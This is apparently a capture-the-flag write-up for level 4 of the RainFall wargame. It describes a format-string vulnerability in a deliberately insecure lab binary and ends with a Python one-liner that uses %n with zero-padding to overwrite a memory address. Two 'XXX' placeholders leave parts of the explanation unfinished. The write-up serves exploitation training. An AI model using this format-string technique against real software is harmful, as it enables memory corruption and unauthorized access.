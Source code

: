 # Level 4

Once logged in, you will see a binary `level4`.

```
[???] ssh level4@localhost -p 4242
          _____       _       ______    _ _
         |  __ \     (_)     |  ____|  | | |
         | |__) |__ _ _ _ __ | |__ __ _| | |
         |  _  /  _` | | '_ \|  __/ _` | | |
         | | \ \ (_| | | | | | | | (_| | | |
         |_|  \_\__,_|_|_| |_|_|  \__,_|_|_|

                 Good luck & Have fun

  To start, ssh with level0/level0 on localhost:4242
level4@localhost's password:
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level4/level4
```

Let's run this and see what this does

```
level4@RainFall:~$ ./level4
aaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaa
level4@RainFall:~$
```

Oh wow, it does the same thing as level 3...

Wait, really? It can't be this easy, right? _<Goes and decompiles manually into C.>_

Level 4 is indeed very similar to level 3, just with a much larger number of characters to print. Let's modify our exploit from level 3 with the new information from the decompiled program.

XXX: put how to get the address of m
XXX: how to get the offset (like level 4)

Changes from level 3:
- The offset is now 12 in this program
- We'll need to print 16930116 characters before the `%n`. Instead of using Python to print these (which would be relatively slow), we'll use the zero padding (`%0`) functionality of `printf`. (`%016930112x` prints some random memory zero-padded to be a total of `16930112` characters.)

```
level4@RainFall:~$ python -c 'print "\x10\x98\x04\x08" + "%016930112x%12$n"' | ./level4
```
